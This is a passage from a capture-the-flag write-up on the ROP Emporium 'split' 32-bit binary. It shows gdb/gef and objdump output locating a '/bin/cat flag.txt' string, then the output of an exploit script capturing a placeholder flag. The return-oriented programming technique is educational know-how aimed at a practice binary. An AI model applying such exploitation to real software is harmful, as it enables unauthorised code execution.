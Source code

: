 Yay! There's the directory listing!

OK, what if we replace the argument of system to "cat flag.txt"? In theory, it would print the flag we are looking for :D
Let's check if we have the string "/bin/cat" somewhere in the binary. We can find this using gdb.

Re-run the binary under gdb and set a break point at main.

```cpp
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048550 <main+000a>      push   ebp
    0x8048551 <main+000b>      mov    ebp, esp
    0x8048553 <main+000d>      push   ecx
●→  0x8048554 <main+000e>      sub    esp, 0x4
    0x8048557 <main+0011>      mov    eax, ds:0x804a044
    0x804855c <main+0016>      push   0x0
    0x804855e <main+0018>      push   0x2
    0x8048560 <main+001a>      push   0x0
    0x8048562 <main+001c>      push   eax
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "split32", stopped 0x8048554 in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048554 → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  grep "/bin/cat"
[+] Searching '/bin/cat' in memory
[+] In '/root/rop/split/split32'(0x804a000-0x804b000), permission=rw-
  0x804a030 - 0x804a041  →   "/bin/cat flag.txt"
gef➤
```


The exact string is present in the binary at address `0x804a030`. How very convenient!
We can see this in the output of `objdump` as well.

```bash
root@localhost:~/rop/split# objdump -M intel -s  --section .data split32

split32:     file format elf32-i386

Contents of section .data:
 804a028 00000000 00000000 2f62696e 2f636174  ......../bin/cat
 804a038 20666c61 672e7478 7400                flag.txt.
```

Alright, at this point we are all set to write our exploit.


```bash
root@localhost:~/rop/split# ./exploit.py
[+] Starting local process './split32': pid 76174
[*] Switching to interactive mode
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

There's the flag (⌐■_■)

